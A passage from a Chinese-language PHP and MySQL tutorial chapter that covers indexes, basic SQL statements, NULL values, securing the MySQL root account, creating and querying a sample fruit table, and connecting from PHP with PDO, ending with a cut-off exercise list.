那为什么不直接对表本身进行排序呢？如果你知道只有一个字段可能需要搜索，这可能是可行的。然而，情况很少如此。因为不可能同时按多个字段对表进行排序，最好的选择是使用一个或多个索引，它们与表是分离的。

_主键_ 是一种特殊的索引，如前面所述，它用于标识记录并将表彼此关联，从而提供关系数据库模型。每个相关表都应该有且只有一个主键。

你还可以基于字段组合（而非单个字段）创建索引或主键。要以这种方式形成键，跨索引字段的值组合必须是唯一的。

因为索引能显著提升性能，你可能会想创建尽可能多的索引以获得最大性能提升，对吧？不总是如此。索引是提升表中搜索和检索数据速度的可靠方式，但它会使记录更新变慢，并增加表的大小。这是因为，当你将记录插入已建立索引的表时，数据库引擎还必须在相应的索引或索引中记录其位置。索引越多，更新过程就越慢，表也就越大。


在对表创建索引时，不要创建超出所需的数量。将索引列限制在经常被搜索或排序的列上。如果需要，可以根据需要在表上创建其他索引以提高性能。

## 介绍 SQL 语句

要实际操作数据库和表，需要使用 SQL 语句。常见语句包括：

- SELECT — 从一个或多个表中检索数据
- INSERT — 将数据插入表中
- REPLACE — 替换表中的数据。如果表中已存在相同记录，该语句将用新数据覆盖该记录
- UPDATE — 更新表中的数据
- DELETE — 从表中删除数据

其他常用语句用于创建或修改表和数据库本身，而非操作表中存储的数据：

- CREATE — 创建数据库、表或索引
- ALTER — 修改表的结构
- DROP — 删除数据库或表

在接下来的几章中，你将学习这些语句中的大部分。不过，为了让你初步了解，让我们来看看典型的 MySQL SELECT 语句形式，它用于从表中检索记录。使用 SELECT 执行的操作称为查询（因此得名“结构化查询语言”）：

```
SELECT field1, field2, ... , fieldn FROM table WHERE condition
```

语句可能跨越多行。以下是一个真实的多行 SQL 语句简单示例：

```
SELECT lastName, firstName
FROM users
WHERE firstName = 'John'
```

仔细查看查询中的 FROM 和 WHERE 子句。该查询返回 users 表中 firstName 字段值为 "John" 的任何记录。假设数据库中实际存在名为 users 的表，查询输出可能如下所示：

```
Simpleton John
Smith John
Thomas John
```

返回的值称为结果集。如你在后面将看到的，可以在 PHP 脚本中遍历结果集中的所有行。如果查询未找到任何行，则改为返回 NULL（下一节将讨论）。

DELETE 或 INSERT 等其他 SQL 语句不返回结果集。

## 了解 NULL 值

除了前面提到的数据类型外，MySQL 还可以处理另一种称为 NULL 的特殊值。

在 MySQL 表中，字段的 NULL 值表示该字段中的数据缺失。NULL 不属于任何特定数据类型，但可以替代任何值。由于它不是一种数据类型，尽管它可以存在于字段中，NULL 的概念通常难以理解。例如，常见的错误是将 NULL 视为零，这是错误的，因为零是一个值，而 NULL 不是。包含一个或多个空格的字符串，以及长度为零的字符串，也可能被误认为是 NULL。NULL 什么都不是，既不是数据类型，也不是数据。

那么，如果查询结果集中包含 NULL，且该结果集随后在 PHP 脚本的后续计算中使用，会发生什么情况？一般来说，NULL 会在整个计算过程中传播。任何涉及 NULL 的算术运算都会返回 NULL。毕竟，执行计算所需的所有数据都不存在时，如何提供结果？

如果刚开始觉得 NULL 的概念有点奇怪，不要担心。一旦你开始实际使用它，就能理解了。

现在让我们将所有这些理论付诸实践，一起在 MySQL 中探索一些有趣的事情吧！

## 设置 MySQL

MySQL 数据库系统自带多个不同的程序。这里要介绍的两个重要程序是：

- MySQL 服务器 —— 这就是数据库引擎本身。该程序通常称为 mysqld 或类似名称
- MySQL 命令行工具 —— 可以使用此工具直接与 MySQL 服务器通信，从而创建数据库和表，并添加、查看和删除数据。它对于设置数据库和故障排除都很方便。该程序名称为 mysql

## 启动 MySQL 服务器

如果你按照第 2 章的说明安装了 PHP（在 Ubuntu 上使用 Synaptic，在 Windows 上使用 WampServer，或在 Mac OS X 上使用 MAMP），那么 MySQL 服务器和命令行工具应该已经安装在你的计算机上。事实上，MySQL 服务器可能已经在运行，但如果没有运行，以下是启动方法：

- Ubuntu —— 选择系统 ➤ 管理 ➤ 服务。在出现的对话框中，在列表中查找“数据库服务器 (mysql)”项目。如果该项目左侧有复选标记，则说明已在运行。如果没有，请单击“解锁”，输入密码，然后单击“身份验证”。现在单击“数据库服务器 (mysql)”项目左侧的复选框。MySQL 数据库服务器 (mysqld) 现在应该已在运行
- Windows 上的 WampServer —— 检查任务栏中的 WampServer 图标。如果图标是黑白色的，则 Apache 和 MySQL 服务器应该正在正确运行。如果图标部分是黄色或部分是红色，则一个或两个服务器未运行。单击图标以显示 WampServer 菜单，然后选择“启动所有服务”或“重启所有服务”选项以启动 Apache 和 MySQL 服务器
- Mac OS X 上的 MAMP —— 在 Finder 中打开“应用程序”文件夹内的 MAMP 文件夹，然后双击 MAMP 图标以启动应用程序。如果 MySQL 服务器左侧有红色指示灯，请单击“启动服务器”按钮以同时启动 Apache 和 MySQL 服务器。两个指示灯现在都应该变成绿色

## 设置 MySQL root 密码

既然 MySQL 数据库引擎已在你的计算机上运行，是时候配置 MySQL root 用户了。

MySQL 像大多数联网系统一样，要求你使用特定用户帐户登录后才能执行任何操作。这是一种相当明显的安全措施，通过为每个帐户指定权限来限制对数据的访问。例如，一个用户可能只有查看现有数据的权限，而另一个用户可能有添加新数据的权限，甚至可能更改其他用户的权限。

root 是传统上赋予系统最高级用户的名称，该用户自动拥有查看和修改所有数据及设置的权限：这是一个非常强大的地位。MySQL 安装时会自动创建 root 帐户，但不会为其设置密码。这意味着任何人都可以以 root 身份连接到你的服务器！因此，你原本干净的 MySQL 服务器可能对任何拥有 MySQL 客户端并能连接到服务器的人都毫无保留地开放，你需要对此采取措施。

设置 root 密码的过程可能看起来有点冗长，尤其是如果你不熟悉 MySQL，但实际上非常简单，而且你只需操作一次！

要设置 root 密码，请执行以下步骤：

1. 打开 shell 提示符 —— 在 Ubuntu 上，选择“应用程序” ➞ “附件” ➞ “终端”。在 Windows 上，选择“开始” ➞ “所有程序” ➞ “附件” ➞ “命令提示符”。在 Mac 上，双击“应用程序/实用工具”文件夹内的终端图标。

2. 切换到正确的文件夹 —— 在终端或命令提示符窗口中，使用 cd 切换到包含 MySQL 命令行工具 mysql 的目录。在 Windows 上使用 WampServer 时，此目录类似于 `C:\wamp\bin\mysql\mysql5.0.51b\bin`。因此你需要输入：

```
cd C:\wamp\bin\mysql\mysql5.0.51b\bin
```

然后按 Enter。

在 Mac OS X 上使用 MAMP 时，假设你将 MAMP 安装在“应用程序”文件夹中，则正确目录应为 /Applications/MAMP/Library/bin。如果你使用 Ubuntu，则可以跳过此步骤，因为 mysql 通常安装在标准路径 /usr/bin 中。

3. 启动 MySQL 命令行工具 —— 在 Ubuntu 和 Windows 上，输入

```
mysql -u root
```

然后按 Enter。在 Mac OS X 上，输入：

```
./mysql -u root
```

（即一个句点，接着一个斜杠，然后是 mysql，再跟一个空格、一个连字符、字母“u”、另一个空格以及单词 root）并按 Enter。你应该会看到类似以下的消息出现，表明你现在正在运行 mysql 工具：

```
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 671
Server version: 5.0.41 Source distribution
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

```
mysql>
```

如果收到类似于 "Access denied for user 'root'@'localhost' (using password: NO)" 的错误，说明你的 MySQL 服务器的 root 帐户已设置密码，你需要使用 -p 输入密码（稍后将展示）。如果你忘记了密码，可以按照稍后所述的方法重置它。

4. 检查当前权限 —— 在 mysql> 提示符处输入以下内容并按 Enter：

```
SELECT Host, User, Password FROM mysql.user;
```

在 MySQL 命令行程序中输入 SQL 语句时，需要以分号结束每条语句。

你将看到 MySQL 系统中当前用户和密码的列表，以表格形式显示。它可能类似于以下内容：

| 主机 | 用户 | 密码 |
| :--- | :--- | :--- |
| localhost | root | |
| mattscomputer | root | |
| 127.0.0.1 | root | |
| localhost | | |
| mattscomputer | | |

5 行记录（0.00 秒）

```
mysql>
```

你应该会在“用户”列中看到一个或多个包含 root 的行，且“密码”列为空。你需要为这些行中的每一个添加密码。


- 5. 为 root 用户添加密码 — 输入以下行，将 mypass 替换为要使用的密码，将 mattscomputer 替换为计算机的主机名（在表格的 Host 列中显示），并在每行后按 Enter：

```
SET PASSWORD FOR 'root'@'localhost' = PASSWORD('mypass');
SET PASSWORD FOR 'root'@'mattscomputer' = PASSWORD('mypass');
SET PASSWORD FOR 'root'@'127.0.0.1' = PASSWORD('mypass');
```

您只需输入表格中显示的根条目对应的行。例如，如果表格不包含 127.0.0.1 主机的行，则可以省略第三个 SET PASSWORD 行。

确保选择安全的密码。至少，密码应至少 7 个字符长，并包含字母和数字的组合。

- 6. 检查密码是否已设置 — 重新输入步骤 4 中的 SELECT 行并按 Enter。您应该看到三个 root 用户的 Password 列现已设置：

| 主机 | 用户 | 密码 |
|---|---|---|
| localhost | root | *D8DECEC305209EEFEC43008E1D420E1AA06B19E0 |
| mattscomputer | root | *D8DECEC305209EEFEC43008E1D420E1AA06B19E0 |
| 127.0.0.1 | root | *D8DECEC305209EEFEC43008E1D420E1AA06B19E0 |
| localhost | | |
| mattscomputer | | |

- 7. 退出 MySQL 命令行工具 — 输入 exit 然后按 Enter 以返回 shell 提示符。

现在您已为 root 账户添加了密码，您的 MySQL 服务器相对安全。要测试新密码，请再次运行 mysql 命令，但这次在命令行末尾添加 -p（连字符后跟 "p"），如下所示：

```
mysql -u root -p # Ubuntu, Windows
./mysql -u root -p # Mac OS X
```

MySQL 将提示您输入之前输入的 root 密码。现在输入它，然后按 Enter。如果一切顺利，您应该回到 mysql> 提示符。再次，输入 exit 并按 Enter 以退出程序。

> 如果收到“Access denied”错误，请重试。如果仍无法访问，可能需要重新安装 MySQL 服务器。或者，您可能能够重置 root 密码。请参阅 MySQL 参考手册中标题为“How to Reset the Root Password”的章节，网址为 http://dev.mysql.com/doc/refman/5.1/en/resetting-permissions.html。

您现在可以使用此 root 用户在 MySQL 系统中创建和操作数据库。您稍后创建的 PHP 脚本也将使用 root 用户连接到 MySQL 数据库。虽然这对于开发和测试目的可以接受，但不应在实时服务器上的 PHP 脚本中使用 root 用户。相反，创建一个仅具有脚本所需权限的新 MySQL 用户。（如果您在共享服务器上运行网站，您的托管公司可能会为您提供用户名和密码。）

创建其他 MySQL 用户超出了本书的范围，但您可以在 MySQL 手册的账户管理语句部分中找到相关操作方法（http://dev.mysql.com/doc/refman/5.1/en/account-management-sql.html）。

mysql 程序会存储您最近输入的语句列表。（按向上键可以回退查看列表中的项目。）出于安全考虑，在设置 root 密码后最好删除此列表，因为密码会出现在此列表的 SET PASSWORD FOR 行中。在 Ubuntu 和 Mac OS X 上执行此操作：退出命令行工具，删除主目录中的 .mysql_history 文件（rm ~/.mysql_history）。在 Windows 上，只需退出命令行工具，然后关闭命令提示符窗口。

*顺便说一句，如果您不习惯使用命令行工具，还有许多图形应用程序可用于管理和访问 MySQL 服务器。尝试免费的 MySQL Administrator 和 MySQL Query Browser 程序，可从 http://dev.mysql.com/downloads/gui-tools/5.0.html 获取。一个不错的基于 Web 的工具是 phpMyAdmin（http://www.phpmyadmin.net/），它也随 WampServer 在 Windows 上捆绑提供（单击 WampServer 任务栏图标即可访问）。*

## 与 MySQL 快速上手

现在您已设置 MySQL root 用户，可以开始使用数据库。在以下部分中，您将创建新数据库、向数据库添加表并向表中添加数据。您还将学习如何查询数据库和表、更新表中的数据，以及删除数据、表和数据库。

*以下部分中的大多数示例都显示使用全大写字母输入命令、语句和其他 SQL 关键字。尽管 SQL 关键字传统上采用大写，但 MySQL 也允许您使用小写输入关键字。因此，如果您偏好小写，可以使用小写。*

### 创建新数据库

创建新 MySQL 数据库非常简单。首先，使用更改 root 密码时采用的相同方法启动 MySQL 命令行工具。打开 shell 提示符，切换到正确的文件夹（如果使用 Windows 或 Mac OS X），然后在 Ubuntu 或 Windows 上输入：

```
mysql -u root -p
```

在 Mac 上输入：

```
./mysql -u root -p
```

按 Enter。现在输入之前指定的 root 密码，然后再次按 Enter。您应该看到提示符出现：

```
mysql>
```

要创建新数据库，只需使用 CREATE DATABASE 命令。输入以下内容以创建名为 mydatabase 的新数据库：

```
CREATE DATABASE mydatabase;
```

按 Enter，MySQL 将创建新数据库。您可以键入命令 SHOW DATABASES 来查看系统中所有数据库的列表（包括新数据库）：

```
mysql> SHOW DATABASES;
+--------------------+
| Database         |
+--------------------+
| information_schema |
| mydatabase       |
| mysql            |
+--------------------+
3 rows in set (0.00 sec)
```

按 Enter 之前，请不要忘记在命令或语句末尾输入分号。

您可以看到此系统有三个数据库。information_schema 和 mysql 与 MySQL 本身的操作相关，mydatabase 是您刚刚创建的数据库。

### 创建表

如您所知，表是实际存储数据的地方。首先，您将创建一个非常简单的表 fruit，包含三个字段：id（主键）、name（水果名称）和 color（水果颜色）。

首先要做的是选择刚刚创建的数据库。选择数据库后，您输入的任何数据库操作命令都将作用于该数据库。输入以下内容：

```
USE mydatabase;
```

按 Enter，您应该看到：

```
Database changed
mysql>
```

现在创建您的表。在 mysql> 提示符处输入以下内容：

```
mysql> CREATE TABLE fruit (
->   id       SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
->   name     VARCHAR(30) NOT NULL,
->   color    VARCHAR(30) NOT NULL,
->   PRIMARY KEY (id)
-> );
```

每行末尾按 Enter。不要输入 "->" 箭头；每次按 Enter 时，MySQL 都会自动显示这些箭头，以通知您语句正在新一行继续。

如果一切顺利，您应该看到类似下面的响应：

```
Query OK, 0 rows affected (0.06 sec)
```

您现在已创建表。要查看数据库中的表列表，请使用 `SHOW TABLES` 命令：

```
mysql> SHOW TABLES;
+-----------------------+
| Tables_in_mydatabase  |
+-----------------------+
| fruit                 |
+-----------------------+
1 row in set (0.00 sec)
```

您甚至可以使用 `EXPLAIN` 命令查看新创建表的结构，如下所示：

```
mysql> EXPLAIN fruit;
+-------+-------------------------+------+-----+---------+----------------+
| Field | Type                    | Null | Key | Default | Extra          |
+-------+-------------------------+------+-----+---------+----------------+
| id    | smallint(5) unsigned    | NO   | PRI | NULL    | auto_increment |
| name  | varchar(30)             | NO   |     | NULL    |                |
| color | varchar(30)             | NO   |     | NULL    |                |
+-------+-------------------------+------+-----+---------+----------------+
3 rows in set (0.00 sec)
```

您创建了一个包含以下三个字段的表：

- `id` 是主键。它唯一标识表中的每一行。您将 `id` 字段创建为 `SMALLINT UNSIGNED`，这意味着它可以容纳最大 65,535 的整数值（这对即使是最狂热的水果爱好者来说也足够了）。您使用了关键字 `NOT NULL`，这意味着该字段不允许 `NULL` 值。您还指定了关键字 `AUTO_INCREMENT`。这样可以确保，每当向表中添加新行时，`id` 字段会自动获得一个新的唯一值（从 1 开始）。这意味着您在插入数据时无需指定该字段的值。

- `name` 将存储每种水果的名称。它创建为 `VARCHAR(30)`，这意味着它可以容纳长度最多 30 个字符的字符串。同样，`NOT NULL` 关键字指定不允许此字段的 `NULL` 值。

- `color` 的创建方式与 `name` 相同，将用于存储每种水果的颜色。

*顺便说一句，如果您想为表中的字段创建常规键（而非主键），请使用关键字 `KEY` 或 `INDEX` 代替 `PRIMARY KEY`。因此，如果您想为 `name` 字段添加索引（因为您的表包含大量水果记录，并且经常想按名称查找水果），您可以使用（同样，不要输入箭头）：*

```
mysql> CREATE TABLE fruit (
->     id        SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
->     name      VARCHAR(30) NOT NULL,
->     color     VARCHAR(30) NOT NULL,
->     PRIMARY KEY (id),
->     KEY (name)
-> );
```


## 向表中添加数据

现在尝试向你的表中添加一些水果。要向表中添加新行，请使用 SQL INSERT 语句。在其基本形式中，INSERT 语句如下所示：

```
INSERT INTO table VALUES ( value1, value2, ... );
```

这会按字段创建的顺序，将值插入表中的每个字段。或者，您可以仅填充部分字段来创建一行。剩余字段将包含 NULL（如果允许），或者对于 AUTO_INCREMENT 字段等特殊字段，字段值将自动计算。要插入一行部分数据，请使用：

```
INSERT INTO table ( field1, field2, ... ) VALUES ( value1, value2, ... );
```

因此，您可以仅将数据插入 name 和 color 字段，向 fruit 表中添加三行（id 字段将自动填充）：

```
mysql> INSERT INTO fruit ( name, color ) VALUES ( 'banana', 'yellow' );
Query OK, 1 row affected (0.06 sec)

mysql> INSERT INTO fruit ( name, color ) VALUES ( 'tangerine', 'orange' );
Query OK, 1 row affected (0.00 sec)

mysql> INSERT INTO fruit ( name, color ) VALUES ( 'plum', 'purple' );
Query OK, 1 row affected (0.00 sec)

mysql>
```

## 从表中读取数据

在 SQL 中读取数据时，您需要使用 SELECT 语句创建查询。得益于 SQL 的灵活性，您可以对数据运行非常复杂的查询（例如，“给我列出去年 10 月 13 日至 11 月 17 日期间从 John Smith 发送给 Henry Hargreaves 的所有超过 500 美元的交易”）。不过，暂时先来看几个简单的示例。

要检索 fruit 表中所有数据的列表，可以使用：

`mysql> SELECT * from fruit;`

| ID | 名称 | 颜色 |
|----|------|-------|
| 1 | 香蕉 | 黄色 |
| 2 | 橘子 | 橙色 |
| 3 | 李子 | 紫色 |

3 行记录 (0.00 秒)

（星号表示“所有字段。”）您也可以仅指定要检索的字段或字段：

`mysql> SELECT name, color from fruit;`

| 名称 | 颜色 |
|------|-------|
| 香蕉 | 黄色 |
| 橘子 | 橙色 |
| 李子 | 紫色 |

3 行记录 (0.00 秒)

要检索选定的行或多行，需要在 SELECT 语句末尾添加 WHERE 子句。WHERE 子句根据子句中的条件过滤结果。WHERE 条件中可以使用几乎任何表达式。以下是一些简单 WHERE 子句的示例：

`mysql> SELECT * from fruit WHERE name = 'banana';`

| ID | 名称 | 颜色 |
|----|------|-------|
| 1 | 香蕉 | 黄色 |

1 行记录 (0.08 秒)

`mysql> SELECT * from fruit WHERE id >= 2;`

| ID | 名称 | 颜色 |
|----|------|-------|
| 2 | 橘子 | 橙色 |
| 3 | 李子 | 紫色 |

2 行记录 (0.06 秒)

在下一章中，您将构建更复杂的 SELECT 查询和 WHERE 子句。

## 更新表中的数据

您使用 UPDATE 语句更改表中的现有数据。与 SELECT 语句类似，您可以（并且通常会）添加 WHERE 子句来指定确切要更新的行。如果省略 WHERE 子句，则整个表都会被更新。

以下是使用 UPDATE 更改 fruit 表中值的方法：

`mysql> UPDATE fruit SET name = 'grapefruit', color = 'yellow' WHERE id = 2;`
Query OK, 1 row affected (0.29 sec)
Rows matched: 1  Changed: 1  Warnings: 0

`mysql> SELECT * from fruit;`

| ID | 名称 | 颜色 |
|----|------|-------|
| 1 | 香蕉 | 黄色 |
| 2 | 葡萄柚 | 黄色 |
| 3 | 李子 | 紫色 |

3 行记录 (0.00 秒)

## 从表中删除数据

删除操作与更新操作类似。要删除行，请使用 `DELETE` 语句。如果添加 `WHERE` 子句，可以选择要删除的行；否则，表中的所有数据都会被删除（但表本身保留）。以下是一个示例：

`mysql> DELETE FROM fruit WHERE id = 2;`
Query OK, 1 row affected (0.02 sec)

`mysql> SELECT * from fruit;`

| ID | 名称 | 颜色 |
|----|------|-------|
| 1 | 香蕉 | 黄色 |
| 3 | 李子 | 紫色 |

2 行记录 (0.00 秒)

## 删除表和数据库

要完全删除表，请使用 `DROP TABLE` 语句。同样，可以使用 `DROP DATABASE` 删除整个数据库。

首先，以下是使用 `DROP TABLE` 的方法：

`mysql> SHOW TABLES;`

| mydatabase 中的表 |
|----------------------|
| fruit |

1 行记录 (0.00 sec)

`mysql> DROP TABLE fruit;`
Query OK, 0 rows affected (0.25 sec)

`mysql> SHOW TABLES;`
Empty set (0.00 sec)

`DROP DATABASE` 的工作方式类似：

`mysql> SHOW DATABASES;`

| 数据库 |
|----------|
| information_schema |
| mydatabase |
| mysql |

3 行记录 (0.40 sec)

`mysql> DROP DATABASE mydatabase;`
Query OK, 0 rows affected (0.14 sec)

`mysql> SHOW DATABASES;`

| 数据库 |
|----------|
| information_schema |
| mysql |

2 行记录 (0.00 sec)

使用 DELETE 和 DROP 等语句时需小心，因为无法撤销删除过程。请确保定期备份 MySQL 数据库，并在执行可能清除大量数据的任何操作之前进行备份。有关备份的信息，请参阅 MySQL 手册中“数据库备份”部分，网址为 http://dev.mysql.com/doc/refman/5.0/en/backup.html。

您也可以修改表的定义，即使表中已有数据。为此，请使用 ALTER TABLE 语句。有关 ALTER TABLE 的更多信息，请参阅 MySQL 手册中“ALTER TABLE 语法”部分，网址为 http://dev.mysql.com/doc/refman/5.1/en/alter-table.html。

## 从 PHP 连接到 MySQL

目前为止，您已经了解了关系型数据库背后的理论，并通过 mysql 命令行工具直接使用了 MySQL。现在是时候让您的 PHP 脚本与 MySQL 通信了。

撰写本文时，PHP 提供了两种主要方式来连接 MySQL 数据库：

- **mysqli (MySQL 改进版)** — 此扩展专门针对 MySQL，并提供从 PHP 访问 MySQL 的最完整途径。它既提供面向过程（面向函数）的接口，也提供面向对象的接口。由于拥有庞大的函数和类集合，如果您不习惯使用数据库，可能会觉得它令人不知所措。但是，如果您确定只会使用 MySQL，并希望从 PHP 脚本中榨取 MySQL 的最大性能，那么 `mysqli` 是一个不错的选择。

- **PDO (PHP 数据对象)** — 这是一个面向对象的扩展，位于 MySQL 服务器和 PHP 引擎之间。它为您提供一组简洁、清晰的类和方法，可用于操作 MySQL 数据库。此外，您可以使用同一扩展与许多其他数据库系统通信，这意味着您只需学习一套类和方法，即可创建可在 MySQL、PostgreSQL、Oracle 等系统间工作的应用程序。

在 PHP 开发者中，在这两种扩展之间做选择可能是一个充满宗教争议的话题，这表明两种方法都有各自的优缺点。本书使用 PDO，主要因为它更容易、更快上手，但一旦您学会了 PDO，应该会发现需要时可以将技能迁移到 `mysqli`。

如果您在 Ubuntu 上使用 Synaptic、在 Windows 上使用 WampServer 或在 Mac 上使用 MAMP 安装了 PHP 和 MySQL，您应该会发现 `mysqli` 和 PDO 扩展已预装。（如果您需要手动安装 PDO，可以在 http://www.php.net/manual/en/pdo.installation.php 找到说明。）


## 建立连接

要在 PHP 脚本中连接到 MySQL 数据库，你只需创建一个新的 PDO 对象。创建对象时，需传入三个参数：DSN（用于描述要连接的数据库）；要以其身份连接的用户名；以及该用户的密码。返回的 PDO 对象即充当你脚本与数据库的连接：

```
$conn = new PDO( $dsn, $username, $password );
```

DSN（即数据源名称）只是一个描述连接属性的字符串，例如数据库系统类型、数据库位置和数据库名称。例如，以下 DSN 可用于连接与 PHP 引擎运行在同一台机器上名为 mydatabase 的 MySQL 数据库：

```
$dsn = "mysql:host=localhost;dbname=mydatabase";
```

如果未指定 host，则默认为 localhost。

综合起来，你可以按如下方式连接到 mydatabase 数据库（当然，请将 mypass 替换为 MySQL 中 root 用户的真实密码）：

```
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";
$conn = new PDO( $dsn, $username, $password );
```

使用完连接后，应将其关闭，以便其他脚本可以使用。虽然 PHP 引擎通常会在脚本结束时关闭连接，但显式关闭连接是个好习惯，可以稳妥起见。

要关闭连接，只需将 null 赋值给你的连接变量即可。这实际上销毁了 PDO 对象，进而关闭了连接：

```
$conn = null;
```

## 处理错误

数据库错误众所周知难以追踪和处理。PDO 的一个优点是，它可以将 MySQL 错误以高度描述性的 PDOException 对象形式返回。然后，你可以使用 PHP 关键字 try 和 catch 轻松处理这些异常并妥善处理。

第 20 章将全面介绍异常，因此这里你只需掌握基础知识。

要让 PDO 在发生数据库错误时抛出异常，请使用 PDO::setAttribute 方法设置 PDO 对象的错误模式，如下所示：

```
$conn = new PDO( $dsn, $username, $password );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
```

现在，你可以使用 `try ... catch` 代码块捕获连接数据库时可能发生的任何错误。如果你在编写复杂的应用程序，可能会将错误消息记录到文件，并可能向 Webmaster 发送一封电子邮件告知错误详情。不过，为演示这些示例，你只需在网页中显示错误消息：

```
try {
    $conn = new PDO( $dsn, $username, $password );
    $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}
```

PHP 会运行 `try` 块中的代码。如果 PDO 抛出异常，`catch` 块会将 PDOException 对象存储在 $e 中，然后使用 $e->getMessage() 显示错误消息。

例如，如果脚本中的 $password 变量包含错误密码，运行脚本时你会看到类似以下的消息：

```
Connection failed: SQLSTATE[28000] [1045] Access denied for user
'root'@'localhost' (using password: YES)
```

## 读取数据

既然已在 PHP 脚本中连接到数据库，你就可以使用 SELECT 语句从数据库中读取一些数据。要将 SQL 语句发送到 MySQL 服务器，请使用 PDO 对象的 query 方法：

```
$conn->query ( $sql );
```

如果你的 SQL 语句以结果集形式返回数据行，你可以将 $conn->query 的结果赋值给一个变量来捕获数据：

```
$rows = $conn->query ( $sql );
```

$conn->query 返回的结果实际上是另一种类型的对象，称为 PDOStatement 对象。你可以使用该对象配合 foreach 循环遍历结果集中的所有行。每行都是一个关联数组，包含该行在表中的所有字段名和值。例如：

```
$sql = "SELECT * FROM fruit";
$rows = $conn->query( $sql );
foreach ( $rows as $row ) {
    echo "name = " . $row["name"] . "<br />";
    echo "color = " . $row["color"] . "<br />";
}
```

## 尝试：使用 PHP 读取数据库表

这个简单示例向你展示了如何使用 PDO 连接到 MySQL 服务器和数据库，读取表中的所有行，并处理可能发生的任何错误。

首先，你需要一个可用于操作的数据库和表。本示例假设你已像前面章节所示创建了名为 `mydatabase` 的数据库，并创建并填充了名为 `fruit` 的表。如果没有，你可以通过在 MySQL 命令行工具中键入以下内容轻松重新创建数据库和表：

```
CREATE DATABASE mydatabase;
USE mydatabase;

CREATE TABLE fruit (
    id   SMALLINT UNSIGNED NOT NULL AUTO_INCREMENT,
    name VARCHAR(30) NOT NULL,
    color VARCHAR(30) NOT NULL,
    PRIMARY KEY (id)
);

INSERT INTO fruit ( name, color ) VALUES ( 'banana', 'yellow' );
INSERT INTO fruit ( name, color ) VALUES ( 'tangerine', 'orange' );
INSERT INTO fruit ( name, color ) VALUES ( 'plum', 'purple' );
```

现在，将以下脚本保存为文档根目录下的 `get_fruit.php`，将 `mypass` 替换为 MySQL 中 `root` 用户的密码，并在 Web 浏览器中运行该脚本。你应该会看到类似图 12-1 的结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Fruit</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>

<h1>Fruit</h1>

<?php
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";

try {
$conn = new PDO( $dsn, $username, $password );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}

$sql = "SELECT * FROM fruit";
echo "<ul>";

try {
    $rows = $conn->query( $sql );
    foreach ( $rows as $row ) {
        echo "<li>A " . $row["name"] . " is " . $row["color"] . "</li>";
    }
} catch ( PDOException $e ) {
    echo "Query failed: " . $e->getMessage();
}

echo "</ul>";
$conn = null;
?>
</body>
</html>
```


## 图 12-1

## 工作原理

在显示 XHTML 页面标题后，脚本会设置用于连接 MySQL 数据库的 DSN、用户名和密码：

```
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";
```

接下来，脚本使用 PDO 打开数据库连接，捕获并显示发生的任何错误：

```
try {
    $conn = new PDO( $dsn, $username, $password );
    $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
    echo "Connection failed: " . $e->getMessage();
}
```

现在，SQL 查询被创建并存储在字符串变量 $sql 中。此查询只是从 fruit 表中提取所有数据：

```
$sql = "SELECT * FROM fruit";
```

脚本的主体部分运行查询，循环遍历返回的数据行，并将每行的内容显示在 HTML li 元素中：

```
echo "<ul>";

try {
    $rows = $conn->query( $sql );
    foreach ( $rows as $row ) {
        echo "<li>A " . $row["name"] . " is " . $row["color"] . "</li>";
    }
} catch ( PDOException $e ) {
    echo "Query failed: " . $e->getMessage();
}

echo "</ul>";
```

请注意，$conn->query 的调用和循环代码都在 try 块内，以捕获运行查询时可能引起的任何异常。如果抛出异常，则由 catch 块处理，该块会显示消息“Query failed”及错误消息。

最后，脚本关闭数据库连接并完成 XHTML 页面：

```
$conn = null;

?>
</body>
</html>
```

这就是在 PHP 脚本中使用 PDO 连接数据库的基础知识。在接下来的几章中，你将使用 PHP 构建更高级的查询和命令来操作数据，并构建一些有用的数据库驱动应用程序。


## 摘要

虽然您可以使用文本文件存储少量数据，但许多Web应用程序需要将数据存储在数据库中。在本章中，您了解了数据库的概念，并学习了一般使用数据库（尤其是MySQL）的一些基本技术：

- [ ] 您学习了嵌入式、客户端-服务器、简单和关系型数据库，并了解到像MySQL这样的关系型数据库将其数据作为表中的行和列进行存储。您发现，通过将数据分散到多个表中，可以使数据库更高效——这一过程称为规范化
- [ ] 为使用MySQL做准备，您学习了SQL语言的基础知识，并探索了MySQL数据类型和索引（键）。您还了解了NULL值的概念
- [ ] 将理论付诸实践，您学习了如何启动MySQL服务器、设置root密码、创建数据库和表、向表中添加数据，以及读取、更新和删除表中的数据。您还学习了如何删除整个表和数据库
- [ ] 在本章的最后一部分，您简要了解了如何使用PDO扩展从PHP脚本连接到MySQL。您学习了如何设置连接、如何处理错误以及如何从表中读取数据

您将在即将到来的章节中基于这些技能进行构建，届时您将开始构建一些实用的数据库驱动的PHP应用程序。下一章将探讨如何在PHP脚本中检索MySQL数据。与此同时，尝试以下两个练习来测试您对SQL和编写MySQL支持的PHP脚本的了解。您可以在附录A中找到这些练习的解答。

## 练习

1. 编写一个SQL语句，在mydatabase数据库中创建一个名为members的表，以存储读书俱乐部成员的信息。为每个人存储以下数据：名、姓、年龄和加入俱乐部的日期。创建更多的SQL语句，向此表插入五个虚构的人：
     - [ ] Jo Scrivener，31岁，于2006年9月3日加入
     - [ ] Marty Pareene，19岁，于2007年1月7日加入
     - [ ] Nick Blakeley，23岁，于2007年8月19日加入
